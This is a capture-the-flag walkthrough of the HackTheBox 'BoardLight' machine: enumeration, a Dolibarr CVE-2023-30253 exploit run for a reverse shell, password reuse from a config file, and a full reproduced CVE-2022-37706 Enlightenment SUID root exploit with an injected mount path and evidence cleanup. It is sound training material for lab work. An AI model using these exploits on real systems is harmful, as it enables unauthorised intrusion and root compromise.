 ```yaml
---
title: BoardLight
tags:
  - Linux
  - CRM
  - Enumeration
  - SUID
  - HackTheBox
  - Easy
---
```

![](Pasted%20image%2020240831201755.png)
## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

After that, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- board.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

So I took a look at the webpage:

![](Pasted%20image%2020240831202645.png)

After some inspection, I decided to perform a scan with [dirsearch 📁](/notes/tools/dirsearch.md), but nothing was found, so I performed a [Ffuf 🐳](/notes/tools/Ffuf.md) scan to scan for subdomains:

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://board.htb:80/ -H 'Host: FUZZ.board.htb' -fs 15949

[redacted]
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 71ms]
```

So we add it to the hosts file.

Now a strange login is found:

![](Pasted%20image%2020240831204415.png)

## Weaponization

As inspecting the code anything was found, I decided to take a look at [CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)

## Exploitation

Run the script like:

```shell
python3 exploit.py http://crm.board.htb admin admin 10.10.14.60 666
```

> We've got a shell :D

![](Pasted%20image%2020240831205055.png)

Stabilise it:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we've got no permissions to read user flag, so let's try to find something interesting inside the machine. After quite time looking for, I managed to find mysql user credentials inside `/var/www/html/crm.board.htb/htdocs/conf/conf.php` file:

![](Pasted%20image%2020240831211222.png)

So I entered the database to extract SSH creds:

```shell
mysql -u dolibarrowner -p

Enter password: serverfun2$2023!!
SHOW DATABASES;
exit
Database
dolibarr
information_schema
performance_schema

mysql -u dolibarrowner -p
use dolibarr;
SHOW TABLES;
Tables_in_dolibarr
llx_accounting_account
llx_accounting_bookkeeping
llx_accounting_bookkeeping_tmp
llx_accounting_fiscalyear
llx_accounting_groups_account
llx_accounting_journal
llx_accounting_system
[redacted]
```

Nothing interesting was found following these steps, so I tried to combine the user `larissa` with the password of mysql `serverfun2$2023!!`. It worked!

![](Pasted%20image%2020240831212132.png)

> We obtained the user flag!

## Privilege Escalation

Once here, we upload linpeas to the machine and search for PE. In this case, linpeas outputs this SUID binary PE:

![](Pasted%20image%2020240831213016.png)

We can check its version with:

```shell
dpkg -l | grep enlightenment
hi  enlightenment      0.23.1-4      amd64        X11 window manager based on EFL
hi  enlightenment-data 0.23.1-4      all          X11 window manager based on EFL - run time data files
```

We can try this exploit: [CVE-2022-37706](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2022-37706/docs/exploit.sh)

```bash
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

echo -e "If it is not found in fstab, big deal :D "
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```

> We are root now and root flag was gained!

![](Pasted%20image%2020240831215735.png)

==Machine pwned!==

